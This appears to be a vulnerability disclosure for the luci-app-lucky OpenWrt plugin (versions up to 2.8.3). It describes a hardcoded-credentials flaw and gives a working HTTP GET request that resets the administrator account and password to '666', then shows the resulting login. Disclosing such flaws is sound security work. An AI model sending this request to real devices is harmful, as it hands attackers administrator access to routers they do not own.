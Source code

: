 ## luci-app-lucky OpenWrt plugin has a hardcoded credentials vulnerability

Affected product:  *luci-app-lucky* <= 2.8.3

### Product Information

project: https://github.com/gdy666/luci-app-lucky

Location of the vulnerability: https://github.com/gdy666/luci-app-lucky/blob/main/luci-app-lucky/luasrc/controller/lucky.lua

### Vulnerability Description


When handling the `lucky_set_config` request, if the `key` is `reset_auth_info`, the function resets the dministrator account and password to the fixed value `666`. This leads to a hardcoded credentials vulnerability, allowing attackers to log into the administrator system using the default account and password.

![4](img/4.png)

Before the attack, set the account to `admin` and the password to `hrgdsf`. Attempt to log in to the backend management system using the account `666` and password `666`,, which results in a login failure. 

![5](img/5.png)

Then, create the following payload and execute the attack. 

```http
GET /cgi-bin/luci/admin/services/lucky_set_config/key?=reset_auth_info HTTP/1.1
Host: 192.168.187.101
Connection: close
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=391b3d3f6a57bc952ba4e63debe32ab3
```

Successfully change the account to `666` and the password to `666`. 

![6](img/6.png)

 Verify the result, and the login is successful.

![7](img/7.png)